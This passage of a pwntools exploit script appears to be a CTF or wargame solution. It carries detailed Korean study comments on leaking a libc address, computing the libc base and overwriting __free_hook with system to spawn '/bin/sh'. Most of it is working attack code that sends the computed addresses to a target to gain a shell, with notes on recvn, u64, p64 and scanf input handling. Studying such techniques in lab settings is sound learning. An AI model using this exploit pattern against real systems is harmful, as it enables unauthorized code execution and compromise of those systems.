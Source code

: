 ```
# 2. p.recvn(8)로 받으면, 마지막에 출력될 \x00\x00 은 널문자인데, printf(%s)는 널문자를 만나기 전까지 출력하기 때문에, 
# 항상 (p.recvn(6) + b'\x00\x00') 또는 개행문자를 제거한 (p.recvline()[:-1] + b'\x00\x00')으로 해야함
# printf가 아닌 write여도 중간에 '\xaa\x00\xaa' 처럼 널문자를 만나면 출력 안하고 뛰어 넘어서 '\xaa\xaa'만 출력함
# 3. 리틀 엔디언에서는 %s로 문자열을 출력할 때, 낮은 주소 먼저 출력되기 때문에 순서를 잘 생각해줘야함 (따라서, \x00\x00이 제일 마지막에 출력될 차례임, 널이라 출력안되긴 하지만)
# 4. u64는 주소 계산을 위해 바이트 문자열을 정수로 변환하는데, 여기서도 string의 마지막이 높은 주소로 가기 때문에 잘 생각해줘서 b'\x00\x00'을 뒤에 붙여줘야함
libc_start_main_xx = u64(p.recvn(6) + b'\x00\x00') 

# 아래 방식은 마지막 '\n' 개행 문자 제거 후 붙임
# libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2) 

# libc_start_main+x 는 라이브러리 버전마다 다르기 때문에 libc.libc_start_main_return을 더해주면 일관성 있게 구할 수 있음
libc_base = libc_start_main_xx - libc.libc_start_main_return 

# [2] Overwrite `free_hook` with `system`

free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b'/bin/sh')) # libc에서 문자열을 검색하는 방법

# [3] Exploit

# scanf는 개행문자까지 받고, 개행문자를 버리기 때문에 send로 하면 안되고, 항상 sendline을 써야함
# scanf로 int형인 %d나 %lld를 받을 때에는, 문자열 그 자체를 정수로 해석하기 때문에 str()이나 str().encode()로 전달해줘야함
# 반면에 scanf("%s"), read, gets와 같은 경우 입력 받은 값을 문자열으로 해석하여 메모리에 입력하기 때문에 p64()로 패킹해서 전달해줘야함
# 그리고 print(p64())로 출력해보면 b'\x00\x...' 이렇게 출력되는데, 이건 사람이 읽을 수 있도록 문자열 리터럴로 표현된 것이고,
# 실제로 p.send()를 통해 전달 될 때는 해당 데이터를 64비트 리틀 엔디언 바이너리(이진) 데이터로 보내기 때문에 수신측에서 메모리에 16진수로 그대로 들어가게함
# 만약 정수 "12"를 scanf(%d)로 입력받으면 메모리에 "0xc"로 저장되겠지만, scanf("%s"), read, gets로 입력 받으면 메모리에 "0x3231"가 저장됨
# 따라서, 정수 "12(0xc)"를 scanf("%d")로 입력할 때는 str().encode()를 해줘야하고, scanf("%s")로 입력할 때는 p64()로 패킹해줘야함

# 1. 주소를 string으로 변환해서 전달함
p.sendline(str(free_hook))
p.sendline(str(system))
p.sendline(str(binsh))

# 2. 주소를 string으로 변환 후 byte string으로 다시 변환해서 전달함 (str(free_hook).encode는 encode 객체를 리턴하는거라서 아예 다른거니까 주의)
# byte string 쓰는 이유는, remote로 데이터를 보낼 때 기본적으로 시스템 콜은 바이트 데이터를 다루고, 
# string으로 표현할 수 없는 null 문자열의 경우, byte string으로 b'\x00' 으로 보내야 하기 때문이다.
# 이번 문제에서는 null 문자가 아닌 정수 그 자체를 보내는 것이기 때문에 필수적으로 encode()를 해주지 않아도 되지만, 항상 encode() 해주는 것이 좋다.
# p.sendline(str(free_hook).encode())
# p.sendline(str(system).encode())
# p.sendline(str(binsh).encode())

# 3. payload를 보낼때, 항상 send 관련 함수는 argument를 int가 아닌 string으로 받기 때문에 int 그 자체로는 절대 보낼 수 없음
# 따라서, 위의 두 예시처럼 string이나 byte string으로 변환해줘야함
# p.sendline(free_hook)
# p.sendline(system)
# p.sendline(binsh)

# 4. p64를 통해 정수를 8바이트 string으로 패킹하면, b'\x56\x34\x12\x00...' 와 같은 형식으로 보내지기 때문에 scanf(%d)로 '\x00'을 입력 받으면 값을 제대로 넣을 수 없음
# p64()는 read, gets, scanf("%s") 와 같이 문자열로 입력을 받을 때만 써야핢
# p.sendline(p64(free_hook))
# p.sendline(p64(system))
# p.sendline(p64(binsh))

# print를 해보면 차이를 잘 알 수 있음
print(p64(free_hook))
print(str(free_hook))
print(str(free_hook).encode())
```